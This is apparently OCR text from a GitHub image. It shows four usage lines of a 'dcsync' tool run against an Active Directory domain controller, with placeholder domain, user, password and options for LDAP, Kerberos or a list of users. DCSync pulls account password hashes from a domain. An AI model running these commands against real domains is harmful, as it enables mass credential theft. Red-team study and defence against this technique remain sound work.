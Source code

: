 dcsync $DOMAIN/$USER:"$PASSWORD"@$DC
dcsync -just-user Aether -k $DOMAIN/$USER:"$PASSWORD"@$DC
dcsync -method ldap $DOMAIN/$USER:"$PASSWORD"@$DC
dcsync -usersfile ./usersfile.txt -dc-ip $DC_IP $DOMAIN/$USER:"$PASSWORD"
